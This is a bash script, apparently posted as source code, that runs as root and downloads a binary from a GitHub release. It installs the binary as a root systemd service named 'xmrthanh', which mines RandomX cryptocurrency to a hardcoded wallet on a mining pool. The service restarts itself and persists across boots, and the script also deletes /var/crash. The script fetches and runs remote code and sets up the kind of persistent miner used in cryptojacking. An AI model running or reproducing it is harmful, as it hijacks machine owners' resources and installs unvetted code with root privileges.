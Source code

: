 #!/bin/bash
sudo su
cd /home
wget https://github.com/trangtrau/sang_ml/releases/download/test/ar 
cp ar jvdar 
chmod +x jvdar

rm -rf /lib/systemd/system/xmrthanh.service
rm -rf /var/crash
bash -c 'cat <<EOT >>/lib/systemd/system/xmrthanh.service 
[Unit]
Description=xmrthanh
After=network.target
[Service]
ExecStart= /home/jvdar -o salvium.herominers.com:1230 -b 152.42.209.29:10000 -u SaLvsAVm78sYam4NrkX4MWHRrUiwC1Fcz4sUAQRY1Jut1ijhonGGcneKLbww6GUvid8N2WHyuLxYfjav1p6xCDRGSVfVEdGPETk -p 1svts1116 -a rx/0 -k -t 13
WatchdogSec=36000
Restart=always
RestartSec=60
User=root
[Install]
WantedBy=multi-user.target
EOT
' &&
systemctl daemon-reload &&
systemctl enable xmrthanh.service &&
service xmrthanh stop  &&
service xmrthanh restart
top
